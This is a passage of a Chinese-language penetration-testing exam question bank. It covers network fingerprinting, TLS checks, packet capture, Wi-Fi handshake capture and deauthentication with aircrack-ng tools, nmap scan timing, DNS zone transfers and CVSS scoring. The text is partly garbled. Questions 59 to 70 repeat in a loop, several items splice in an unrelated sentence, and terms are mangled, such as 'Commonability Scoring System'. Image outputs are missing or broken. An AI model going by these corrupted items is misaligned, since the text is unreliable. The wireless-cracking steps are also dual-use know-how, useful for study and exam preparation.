3. 它是一个主域控制器。
4. 它是一个文件服务器。

### 43. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：


从这些信息中，你可以学到关于该设备的什么信息？

1. 它在它的其中一个硬盘上定义了共享。
2. 它是一个全局目录服务器。
3. 它安装了 `Hyper-V` 虚拟机管理程序角色。
4. 它已加入某个域。
5. 以上都不是。

### 44. 你正在使用 `Telnet` 对 Web 服务器进行指纹识别。这种过程被称为什么？

1. 采集指纹
2. 扫描
3. 破解

### 45. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：



从这些信息中，你可以学到关于该设备的什么信息？（选择两项。）

1. 它是一个路由器。
2. 它是一个打印机。
3. 它是一个 DNS 服务器。
4. 它正在运行 Web 服务器。
5. 它已加入活动目录。

### 46. 你正在进行灰盒渗透测试。你想使用 Linux 笔记本电脑上的 `Telnet` 客户端获取目标网络 Web 服务器的指纹。你会使用哪条命令？

1. `telnet 10.0.0.1:80`
2. `telnet 10.0.0.1:403`
3. `telnet 10.0.0.1 80`
4. `telnet 10.0.0.1 403`

### 47. 你正在进行灰盒渗透测试。你使用 Linux 笔记本电脑上的 `Telnet` 客户端获取目标网络 Web 服务器的指纹。结果所示：



通过这些结果你可以了解到什么？（选择两项。）

1. 它运行在 Linux 之上。
2. 它运行在 Windows 操作系统之上。
3. 它正在运行 `Apache`。
4. 它正在运行 `IIS`。
5. 它是一个安全设备。

### 48. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：



从这些信息中，你可以学到关于该设备的什么信息？

1. 它可能是一台 Windows 服务器。
2. 它可能是一台 Windows 工作站。
3. 它可能是一个域控制器。
4. 它可能是一个 iPhone 移动设备。

### 49. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：



从这些信息中，你可以学到关于该设备的什么信息？

1. 它可能是一个 Cisco 路由器。
2. 它可能是一台 Linux 工作站。
3. 它可能是一个域控制器。
4. 它可能是一个 Android 移动设备。

### 50. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：



从这些信息中，你可以学到关于该设备的什么信息？（选择两项。）

1. 它可能是一个 Cisco 路由器。
2. 它可能是一台 Linux 工作站。
3. 它正在运行一个 DNS 服务器。
4. 它正在运行一个 Web 服务器。
5. 它可能是一台 Windows 服务器。

### 51. 作为灰盒渗透测试期间信息收集过程的一部分，你需要对目标组织的内部 Web 服务器进行证书检查。你可以在 Kali Linux 上使用哪种工具执行此操作？

1. `sslyze`
2. `Zenmap`
3. `nmap`
4. `hping`

### 52. 在灰盒渗透测试期间，你使用 Kali Linux 笔记本电脑上的工具检查了目标组织内部 Web 服务器使用的证书。输出所示：



从此输出中你可以了解到什么？（选择两项。）

1. `SSLv2` 被该 Web 服务器支持。
2. `TLSv1_1` 被该 Web 服务器支持。


3. Web 服务器支持 `TLSv1_2`。
4. Web 服务器支持 `TLSv1`。
5. Web 服务器支持 `SSLv3`。

53. 在灰盒渗透测试的信息收集阶段，你需要在有线网络上捕获数据包。你可以在你的笔记本电脑上使用哪些工具来完成此任务？（选择两项。）
1. `tcpdump`
2. `nmap`
3. `Wireshark`
4. `Zenmap`
5. `aircrack-ng`

54. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。在进行此操作之前，你必须破解 `Wi-Fi 网络` 使用的加密算法。你正停靠在该组织的停车场内。你可以在 Linux 笔记本电脑上使用哪种工具来实现此？
1. `aircrack-ng`
2. `tcpdump`
3. `Wireshark`
4. `nmap`

55. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。为了实现此操作，你笔记本电脑上的无线接口必须如何配置？
1. 设置为监听模式（monitor mode）。
2. 设置为混杂模式（promiscuous mode）。
3. 设置为采集模式（capture mode）。
4. 设置为 `IEEE 802.1x` 模式。

56. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。你想使用 `aircrack-ng` 来破解 Wi-Fi 网络使用的加密。为了实现这一目标，你首先需要捕获认证握手。你应该在笔记本电脑上运行哪种工具来实现此操作？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

57. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。你已经捕获了认证握手。接下来你需要对无线客户端进行取消认证（deauthenticate），以便你可以开始捕获数据。你应该在笔记本电脑上运行哪种工具来实现此操作？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

58. 作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。你笔记本电脑上的有线网络接口必须如何配置才能实现此？
1. 设置为监听模式（monitor mode）。
2. 设置为混杂模式（promiscuous mode）。
3. 设置为采集模式（capture mode）。
4. 设置为 `IEEE 802.1x` 模式。

59. 作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。Web 服务器支持 `TLSv1_2`、`TLSv1` 和 `SSLv3`。在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。为了实现此操作，你笔记本电脑上的无线接口必须如何配置？
1. 设置为监听模式（monitor mode）。
2. 设置为混杂模式（promiscuous mode）。
3. 设置为采集模式（capture mode）。
4. 设置为 `IEEE 802.1x` 模式。

60. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。你想使用 `aircrack-ng` 来破解 Wi-Fi 网络使用的加密。为了实现这一目标，你首先需要捕获认证握手。你应该在笔记本电脑上运行哪种工具来实现此操作？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

61. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。你已经捕获了认证握手。接下来你需要对无线客户端进行取消认证（deauthenticate），以便你可以开始捕获数据。你应该在笔记本电脑上运行哪种工具来实现此操作？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

62. 作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。你笔记本电脑上的有线网络接口必须如何配置才能实现此？
1. 设置为监听模式（monitor mode）。
2. 设置为混杂模式（promiscuous mode）。
3. 设置为采集模式（capture mode）。
4. 设置为 `IEEE 802.1x` 模式。

63. 作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。Web 服务器支持 `TLSv1_2`、`TLSv1` 和 `SSLv3`。在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。为了实现此操作，你笔记本电脑上的无线接口必须如何配置？
1. 设置为监听模式（monitor mode）。
2. 设置为混杂模式（promiscuous mode）。
3. 设置为采集模式（capture mode）。
4. 设置为 `IEEE 802.1x` 模式。

64. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。你想使用 `aircrack-ng` 来破解 Wi-Fi 网络使用的加密。为了实现这一目标，你首先需要捕获认证握手。你应该在笔记本电脑上运行哪种工具来实现此操作？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

65. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。你已经捕获了认证握手。接下来你需要对无线客户端进行取消认证（deauthenticate），以便你可以开始捕获数据。你应该在笔记本电脑上运行哪种工具来实现此操作？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

66. 作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。你笔记本电脑上的有线网络接口必须如何配置才能实现此？
1. 设置为监听模式（monitor mode）。
2. 设置为混杂模式（promiscuous mode）。
3. 设置为采集模式（capture mode）。
4. 设置为 `IEEE 802.1x` 模式。

67. 作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。Web 服务器支持 `TLSv1_2`、`TLSv1` 和 `SSLv3`。在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。为了实现此操作，你笔记本电脑上的无线接口必须如何配置？
1. 设置为监听模式（monitor mode）。
2. 设置为混杂模式（promiscuous mode）。
3. 设置为采集模式（capture mode）。
4. 设置为 `IEEE 802.1x` 模式。

68. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。你想使用 `aircrack-ng` 来破解 Wi-Fi 网络使用的加密。为了实现这一目标，你首先需要捕获认证握手。你应该在笔记本电脑上运行哪种工具来实现此操作？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

69. 在黑盒渗透测试的信息收集阶段，你需要监听从目标设施发出的射频电磁波辐射，并尝试从其无线网络中捕获数据。你正停靠在该组织的停车场内。你已经捕获了认证握手。接下来你需要对无线客户端进行取消认证（deauthenticate），以便你可以开始捕获数据。你应该在笔记本电脑上运行哪种工具来实现此操作？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

70. 作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。你笔记本电脑上的有线网络接口必须如何配置才能实现此？
1. 设置为监听模式（monitor mode）。
2. 设置为混杂模式（promiscuous mode）。
3. 设置为采集模式（capture mode）。
4. 设置为 `IEEE 802.1x` 模式。


71. 你正在进行一次灰盒渗透测试。在枚举和指纹识别过程中，你发现目标组织网络上的一个内部网站运行在非常旧的 `IIS` 上。你需要查看是否存在与该旧版 Web 服务器相关的、你可能可以利用的漏洞。你可以使用哪种开源研究资源？
1. `CVE`
2. Full Disclosure
3. `NVD`
4. 以上所有

72. 你听说 Adobe 刚刚发布了一个安全更新，修复了最近在 Photoshop 中的漏洞。你可以使用哪种开源研究资源来进一步了解该更新以及它旨在修复哪些漏洞？
1. `CERT`
2. Full Disclosure
3. `CAPEC`
4. `NVD`

73. 你听说最近在流行一种新的物理安全攻击，攻击者使用一种名为 `bump key`（弹子钥匙）的特殊钥匙。哪种开源研究资源最可能包含关于该攻击工作原理的信息？
1. `CAPEC`
2. Full Disclosure
3. `NVD`
4. `CVE`

74. 哪种开源研究资源按其严重程度对安全漏洞进行排序？
1. `CERT`
2. Full Disclosure
3. `CVE`
4. `NVD`

75. 在灰盒渗透测试的枚举和指纹识别期间，你发现目标组织的文档和培训部门将其文件存储在 `Windows Server 2003` 系统上，该系统仍处于 `SP2` 补丁级别，因为没有人去更新它。你想调查利用这种旧版服务器的方法。你可以使用哪种开源研究资源？
1. `CVE`
2. `CAPEC`
3. `CWE`
4. 以上均非

76. 哪种类型的漏洞扫描最接近内部系统管理员对网络的视角？
1. 有凭据的 (Credentialed)
2. 无凭据的 (Noncredentialed)
3. 发现 (Discovery)
4. 隐蔽 (Stealth)

77. 哪种类型的漏洞扫描最接近外部黑客对网络的视角？
1. 有凭据的 (Credentialed)
2. 无凭据的 (Noncredentialed)
3. 全量 (Full)
4. 合规 (Compliance)

78. 哪种类型的漏洞扫描通常能识别出最多的漏洞？
1. 有凭据的 (Credentialed)
2. 无凭据的 (Noncredentialed)
3. 发现 (Discovery)
4. 隐蔽 (Stealth)

79. 哪种类型的漏洞扫描通常识别的漏洞最少？
1. 有凭据的 (Credentialed)
2. 无凭据的 (Noncredentialed)
3. 全量 (Full)
4. 合规 (Compliance)

80. Ping 扫描（ping sweep）是哪种类型漏洞扫描的示例？
1. 发现 (Discovery)
2. 全量 (Full)
3. 隐蔽 (Stealth)
4. 合规 (Compliance)

81. 哪种类型的漏洞扫描对目标网络的侵入性最小？
1. 发现 (Discovery)
2. 全量 (Full)
3. 隐蔽 (Stealth)
4. 合规 (Compliance)

82. 哪种类型的漏洞扫描最容易被入侵防御系统 (`IPS`) 或入侵检测系统 (`IDS`) 探测到？
1. 发现 (Discovery)
2. 全量 (Full)
3. 隐蔽 (Stealth)
4. 合规 (Compliance)

83. 哪种类型的漏洞扫描最不容易被入侵防御系统 (`IPS`) 或入侵检测系统 (`IDS`) 探测到？
1. 发现 (Discovery)
2. 全量 (Full)
3. 隐蔽 (Stealth)
4. 合规 (Compliance)

84. 哪种类型的漏洞扫描更有可能被防御者而非渗透测试员使用？
1. 发现 (Discovery)
2. 全量 (Full)
3. 隐蔽 (Stealth)
4. 合规 (Compliance)

85. 哪种类型的漏洞扫描向网络主机发送 `SYN` 数据包以对其枚举？
1. 发现 (Discovery)
2. 全量 (Full)
3. 隐蔽 (Stealth)
4. 合规 (Compliance)

86. 你正在灰盒渗透测试期间进行漏洞扫描。扫描器通过操纵 `TCP` 三次握手来枚举网络主机。你正在执行哪种扫描？
1. 发现 (Discovery)
2. 全量 (Full)
3. 隐蔽 (Stealth)
4. 合规 (Compliance)

87. 你正在灰盒渗透测试期间进行漏洞扫描。扫描器通过操纵 `TCP` 三次握手来枚举网络主机。首先，扫描器向目标主机发送一个 `SYN` 数据包。主机向扫描主机回传一个 `SYN-ACK` 数据包。接下来会发生什么？
1. 扫描主机向目标主机回传一个 `ACK` 数据包。
2. 目标主机向扫描主机发送一个 `ACK` 数据包。
3. 扫描主机向目标主机发送一个 `ICMP Echo Request` 数据包。
4. 扫描主机向目标主机回传一个 `RST` 数据包。

88. 你正在进行灰盒渗透测试。你正在使用隐蔽扫描对内部网络进行漏洞扫描。目标网络安装了 `IDS` 设备。可能会发生什么？
1. `IDS` 将探测到隐蔽扫描。
2. 隐蔽扫描将不会被 `IDS` 探测到。
3. `IDS` 将阻止来自你扫描系统的流量。
4. 隐蔽扫描将与目标网络上的每个主机建立完全的 `TCP` 连接。

89. 哪种类型的漏洞扫描产生的结果最准确？
1. 发现 (Discovery)
2. 全量 (Full)
3. 隐蔽 (Stealth)
4. 无凭据的 (Uncredentialed)

90. 客户聘请你执行 `PCI-DSS` 渗透测试。你可能会执行哪种漏洞扫描？
1. 发现 (Discovery)
2. 全量 (Full)
3. 隐蔽 (Stealth)
4. 合规 (Compliance)

91. 你正在作为白盒渗透测试的一部分扫描客户的内部网络。你的目标是枚举网络。你可能会包含哪些信息？
1. 主机 (Hosts)
2. 网络 (Networks)
3. 域名 (Domains)
4. 以上所有

92. 你正在作为白盒渗透测试的一部分扫描客户的内部网络。你的目标是枚举网络。你可能会包含哪些信息？
1. 用户账户 (User accounts)
2. 组 (Groups)
3. 共享网络文件夹 (Shared network folders)
4. 以上所有

93. 你正在作为白盒渗透测试的一部分扫描客户的内部网络。你的目标是枚举网络。你可能会包含哪些信息？
1. 网页 (Web pages) 
2. 应用程序 (Applications)
3. 服务 (Services)
4. 令牌 (Tokens)
5. 以上所有

94. 你需要在灰盒渗透测试期间执行漏洞扫描。约约规定内部系统管理员不会被提前告知你扫描的时间，你必须避免被探测，并且你的扫描应该尽可能获取多的信息。你应该做？
1. 执行全量漏洞扫描 (Full vulnerability scan)。
2. 执行隐蔽扫描 (Stealth scan)。
3. 限制扫描使用最小带宽。
4. 以上均非。

95. 你需要在灰盒渗透测试期间执行漏洞扫描。约约规定内部系统管理员不会被提前告知你扫描的时间，你必须避免被探测，并且你的扫描应该尽可能获取多的信息。你应该做？
1. 执行合规扫描 (Compliance scan)。
2. 将扫描安排在凌晨时段运行。
3. 执行无凭据扫描 (Noncredentialed scan)。
4. 以上均非。

96. 你正在为客户进行黑盒渗透测试。约约要求你执行有凭据的漏洞扫描，但你没有获得管理员登录信息。你可以做什么？
1. 取消测试。约约与测试类型不匹配。
2. 请求客户向你发送管理员凭据以运行扫描。
3. 实施鱼叉式攻击（Spear phishing），诱骗内部用户泄其凭据。
4. 跳过枚举和指纹识别过程。


# 97. 你正在为一个客户进行黑盒渗透测试。测试约约（Rules of Engagement）要求你对该组织的许多面向网的 Web 服务器进行漏洞扫描。在测试范围内，你只分到了几个小时来执行扫描。你应该怎么做？

1. 跳过对 Web 服务器的扫描。
2. 对每一台 Web 服务器进行全扫描。
3. 将漏洞扫描限制在 Web 服务器上常用的协议上。
4. 对 Web 服务器进行带凭据的扫描。

# 98. 你正在为一个客户进行 PCI-DSS 合规性渗透测试。在网络拓扑方面，在本次测试期间你应该如何运行漏洞扫描？（选择两项）

1. 从内部网络内部执行
2. 使用全漏洞扫描
3. 从组织防火墙之外的位置执行
4. 使用隐身漏洞扫描
5. 仅查看前 20 个端口和协议

# 99. `nmap` 命令使用哪个选项来节流（限制）漏洞扫描查询速度？

1. `-Tn*`
2. `-p`
3. `-F`
4. `-p-`

# 100. 你正在进行黑盒渗透测试。你需要从组织防火墙之外的外部网络位置使用 `nmap` 运行漏洞扫描。该组织使用低带宽 T1 线路连接到互联网。你应该如何配置扫描？

1. 在 `nmap` 命令中使用 `-T5` 选项。
2. 在 `nmap` 命令中使用 `-T4` 选项。
3. 在 `nmap` 命令中使用 `-T2` 选项。
4. 在 `nmap` 命令中使用 `-T0` 选项。

# 101. 你正在进行灰盒渗透测试。你需要对一个脆弱的内部服务器系统运行漏洞扫描。你应该如何配置扫描？

1. 在 `nmap` 命令中使用 `-T5` 选项。
2. 在 `nmap` 命令中使用 `-T3` 选项。
3. 在 `nmap` 命令中使用 `-T2` 选项。
4. 在 `nmap` 命令中使用 `-T0` 选项。

# 102. 在一个在容器内运行网络应用程序的组织内进行漏洞扫描时，以下哪些是你可能需要考虑的问题？（选择两项）

1. 在容器环境中运行的应用程序可能无法被传统的漏洞扫描检测。
2. 容器宿主机可能会降低漏洞扫描的速度。
3. 扫描容器宿主机可能会导致容器内运行的应用程序崩溃。
4. 扫描容器宿主机可能会导致其崩溃，导致关键网络应用程序离线。
5. 容器宿主机基础系统的漏洞被容器继承。

# 103. 以下哪种应用程序扫描技术是通过审查应用程序源代码执行的？

1. 静态代码分析
2. 动态代码分析
3. 模糊测试（Fuzzing）
4. 以上都不是

# 104. 以下哪些应用程序扫描技术是在运行的应用程序上执行的？（选择两项）

1. 静态代码分析
2. 动态代码分析
3. 模糊测试（Fuzzing）
4. 源代码

# 105. 以下哪种应用程序扫描技术是通过向应用程序输入发送随机、意外或无效数据以观察其响应执行的？

1. 静态代码分析
2. 模糊测试（Fuzzing）
3. 源代码分析
4. 以上都不是

# 106. 以下哪项是非传统资产的示例？

1. 数据库服务器
2. 路由器
3. 电视显示器
4. 家用电器/设备

# 107. 以下哪项是非传统资产的示例？

1. 电子邮件服务器
2. 制造设备
3. 访问点
4. 桌面电脑

# 108. 作为黑盒渗透测试信息收集阶段的一部分，你需要对域名进行 DNS 传输。你可以使用以下哪些命令？（选择两项）

1. `dig axfr nameserver`
2. `host -t axfr domain`
3. `nslookup domain`
4. `nmap`

# 109. 你正在进行灰盒渗透测试。你想构造一个自定义包发送服务器以查看它的响应。你可以使用哪种工具？

1. `hping`
2. `ping`
3. `nmap`
4. `Wireshark`

# 110. 你正在进行黑盒渗透测试。你已经使用 `theHarvester` 枚举了用户地址。你可以用这些做什么？（选择两项）

1. 进行钓鱼攻击。
2. 发送垃圾邮件信息。
3. 枚举内部账户。
4. 执行 DNS 传输。

# 111. 在灰盒渗透测试期间，你对系统运行 `nmap` 扫描，发现 139、443 和 3389 端口已开启。该系统最可能运行的是什么操作系统？

1. iOS
2. Windows
3. Linux
4. Android

# 112. 你正在进行灰盒渗透测试。你对主机进行扫描，发现 8080 和 8443 端口已开启。关于该主机你可以推断出什么？

1. 它可能是一个 DNS 服务器。
2. 它可能是域控制器。
3. 它可能是一个文件服务器。
4. 它可能是 Web 服务器。

# 113. Kimberly 正在运行灰盒渗透测试。目标网络使用 8 位子掩码的私有地址方案（10.0.0.0/8）。她需要在网络上的每个主机上运行扫描。她在连接到同一网段的笔记本电脑上加载了 `nmap` 并使用了 `-T0` 选项。她哪里做错了？

1. `nmap` 工具不支持私有地址方案。
2. `nmap` 工具应该在连接到同一网段的主机上运行。
3. 在如此大的子网上`-T0` 选项会导致花费异常的时间。
4. 使用桌面电脑可以提高速度。

# 114. Jessica 正在进行黑盒渗透测试。她需要找出域名注册商。她还想获取组织的地址和电话。她应该使用哪种工具？

1. `whois`
2. `theHarvester`
3. `dig`
4. `nslookup`

# 115. Brittany 正在进行黑盒渗透测试。她想对组织的内部网络运行漏洞扫描。她应该怎么做？

1. 请求组织允许进入现场进行扫描。
2. 请求组织授予其内部网络的 VPN 访问。
3. 尝试入侵内部主机并将其作为跳板。
4. 从外部运行扫描。

# 116. Natasha 正在进行灰盒渗透测试。她最初使用 ping 扫描枚举了网络，发现了一个内部 Web 服务器、一个域控制器、一个路由器以及生产现场使用的几台 SCADA 设备。哪些设备可能被更强度的漏洞扫描产生干扰？（选择两项）

1. Web 服务器
2. 域控制器
3. 路由器
4. SCADA 设备

# 117. Joshua 正在进行灰盒渗透测试。在测试期间运行漏洞扫描时，以下哪项因素最可能没有影响？

1. 内部 IT 人员的可用性
2. 合规性要求
3. 硬件限制
4. 组织的网络流量高峰时段


### 118. Austin 正在进行白盒渗透测试。目标组织高度依赖一个由内部编程人员开发的应用程序。测试范围规定他将获得该应用程序源代码的权限。Austin 拥有丰富的编程背景，因此他逐行分析代码以寻找漏洞。在这种场景下进行的是哪种应用程序分析？

1. 模糊测试 (Fuzzing)
2. 静态代码分析
3. 动态代码分析
4. 启发式代码分析

### 119. Tyson 正在进行灰盒渗透测试。目标组织高度依赖一个由内部编程人员开发的应用程序。他运行了该应用程序，然后使用工具向应用程序的输入端发送随机、意外的数据，并分析它的响应。在这种场景下进行的是哪种应用程序分析？

1. 模糊测试 (Fuzzing)
2. 静态代码分析
3. 启发式代码分析
4. 变异分析 (Mutation analysis)

### 120. Jessica 正在进行白盒渗透测试。她需要对目标组织的客户数据库服务器运行一次侵入性漏洞扫描。她应该怎么做？

1. 在业务高峰期在生产系统上运行扫描。
2. 在典型工作日的上午 9 点左右运行扫描。
3. 先在实验室环境中运行测试扫描。
4. 跳过对此系统的扫描。

### 121. 在执行黑盒渗透测试时，你注意到目标组织有一个公开的服务器，其 SSL/TLS 安全证书已过期。你从这一事实中推断出什么？

1. 服务器的通信可以被解密。
2. 服务器已被攻击者攻破。
3. 内部系统管理员没有关注此服务器。
4. 存储在服务器上的数据可以被解密。

### 122. 你正在进行灰盒渗透测试。你刚刚完成对目标网络上所有主机的广泛范围漏洞扫描。现在你需要对所有扫描过的设备进行分类。以下哪种是执行资产分类的有效方法？

1. 按操作系统
2. 按资产价值
3. 按发现的漏洞数量
4. 按漏洞严重程度
5. 以上所有

### 123. 你正在进行黑盒渗透测试。你正在对漏洞扫描结果进行判判。通过进一步检查，你发现扫描器在目标组织 Web 服务器上识别出的最严重漏洞之一实际上并不存在。以下哪项可以解释发生了什么情况？

1. 扫描器产生了误报 (False positive)。
2. 互联网上某处的攻击者检测到了你的扫描并隐藏了漏洞。
3. 内部管理员检测到了你的扫描并修复了漏洞。
4. 服务器被感染了恶意软件，导致了异常的扫描结果。

### 124. 你正在进行灰盒渗透测试，并刚刚完成了漏洞扫描、结果分类和数据判判。现在你需要在进入测试的下一个阶段之前对漏洞进行优先级排序。以下哪两项可能构成了最高优先级的待利用利用漏洞？（选择两项。）

1. 域控制器运行在旧版本的 Windows Server 上，并且缺少几几个关键更新。
2. 用户的桌面系统缺少某项更新。
3. 用户的桌面系统运行着较早版本的 Ubuntu。
4. 数据库服务器易受到 WannaCry 攻击。

### 125. 你正在对扫描发现的漏洞进行优先级排序。你发现的一个漏洞的`通用漏洞评分系统 (Commonability Scoring System)` 为 `3.8`。它属于哪种风险类别？

1. 低 (Low)
2. 中 (Medium)
3. 高 (High)
4. 严重 (Critical)

### 126. 你正在对扫描发现的漏洞进行优先级排序。你发现的一个漏洞的`通用漏洞评分系统 (Commonability Scoring System)` 为 `10`。它属于哪种风险类别？

1. 低 (Low)
2. 中 (Medium)
3. 高 (High)
4. 严重 (Critical)

### 127. 你正在对扫描发现的漏洞进行优先级排序。你发现的一个漏洞的`通用漏洞评分系统 (Commonability Scoring System)` 为 `5.3`。它属于哪种风险类别？

1. 低 (Low)
2. 中 (Medium)
3. 高 (High)
4. 严重 (Critical)

### 128. 你正在对扫描发现的漏洞进行优先级排序。你发现的一个漏洞的`通用漏洞评分系统 (Commonability Scoring System)` 为 `7.2`。它属于哪种风险类别？

1. 低 (Low)
2. 中 (Medium)
3. 高 (High)
4. 严重 (Critical)

### 129. 你正在评估漏洞扫描结果并注意到一个共同点。你发现目标组织几乎所有的 `Windows Server 2012 R2` 系统都缺少关键更新。你应该怎么做？（选择两项。）

1. 停止渗透测试并立即通知客户。
2. 调查这是否会产生任何你可以利用的漏洞。
3. 在渗透测试报告中记录“缺少更新”这一共同点。
4. 在服务器上安装缺失的更新。
5. 在你的渗透测试博客上记录缺失的更新。

### 130. 你正在评估漏洞扫描结果并有了一个发现。你发现该组织部署了许多 `Linux` 服务器，这些服务器仍在运行于 `2008` 年发布的发行版。你应该怎么做？

1. 将旧版 `Linux` 器中存在的漏洞映射到可能的利用程序上。
2. 停止渗透测试并立即通知客户。
3. 在邮件中建议客户升级服务器。
4. 为你的客户升级服务器。

### 131. 你正在评估漏洞扫描结果，并注意到许多网络设备（如路由器和访问点）仍在使用管理员用户名和密码。这些信息在互联网上很容易找到，代表了重大的安全漏洞。你应该怎么做？（选择两项。）

1. 建议客户采取更改所有默认用户名和密码的最佳实践。
2. 利用使用默认用户名和密码的设备。
3. 为客户手动更改默认用户名和密码。
4. 在流行的网络安全论坛上发布客户仍在使用默认用户名和密码的事实。

### 132. 你刚刚完成了对目标网络的扫描，现在正在为利用发现的漏洞进行活动优先级排序。你发现组织仍在使用较旧的 `Windows Server 2003` 系统，这些系统没有经过适当更新，并且易受到特定漏洞的攻击。你决定编写一个小程序来利用该漏洞。然而，你几乎只使用 `Kali Linux`。你应该怎么做来编写 Windows 程序？（选择两项。）

1. 在你的 Linux 系统上用 `C` 编写代码。
